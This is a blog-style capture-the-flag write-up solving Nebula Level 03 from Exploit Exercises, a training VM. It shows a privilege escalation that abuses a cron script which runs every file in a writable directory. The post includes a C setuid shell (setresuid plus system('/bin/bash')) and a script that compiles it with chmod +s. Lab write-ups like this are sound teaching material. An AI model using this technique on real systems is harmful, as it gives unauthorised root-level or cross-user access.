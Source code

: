 ```yaml
---
title: "Exploit Exercises - Nebula Level 03"
date: 2014-01-09 17:03:25+08:00
categories: 
- Security
- Exercises
- Nebula
---
```


### About
Check the home directory of flag03 and take note of the files there.

There is a crontab that is called every couple of minutes.

To do this level, log in as the level03 account with the password level03 . Files for this level can be found in /home/flag03.

<!-- more -->

### Solution

No source code is available for this level, but there is a shell script in the home directory of user flag03

``` sh writable.sh
#!/bin/sh
for i in /home/flag03/writable.d/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```

This script would be executed periodly by cron, after I have finished this level, I logged in with the admin account and get the content of the corresponding crontab file

``` sh /var/spool/cron/crontabs/flag03
*/3 * * * * /home/flag03/writable.sh
```

For the meaning of this crontab file, please refer to the [Cron Wiki](https://wiki.archlinux.org/index.php/cron) of Archlinux.

Back to the script located in */home/flag03*, this script does the following things

1. limits the use cpu time to be 5s
2. iterately executes all the executable files in directory */home/flag03/writable.d/*
3. delete these executables after executing

This crontab runs in user *flag03*, we could leverage it to do something interesting, like changing the home directory of user *flag03* to be public readable and writable, but what we need is beyond this. 

It is easy to find a way to get the privilege of user *flag03* after all we have read in the previous exercises. So I wrote the following code in C

``` c flag03.c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main() {
	setresuid(996, 996, 996);
	system("/bin/bash");
}
``` 

The uid 996 is got by reading */etc/passwd*

``` c
flag03:x:996:996::/home/flag03:/bin/sh
```

What I need now is to make user *flag03* compile this C code into an executable that could be run by *level04* and the set-user-ID bit is set. So I wrote the following script 

``` sh compile
gcc -o /home/flag03/flag03 /home/level03/flag03.c
chmod 777 /home/flag03/flag03
chmod +s /home/flag03/flag03
```

To make the file */home/level03/flag03.c* readable by user flag03, I changed the permission of my home directory

``` bash
$ chmod a+rx /home/level03
```

Now, place the compile script into */home/flag03/writable.d", and wait patiently for the execution of crontab. After this script is called, I got an executable in */home/flag03* to help me get the privilege of user *flag03* :)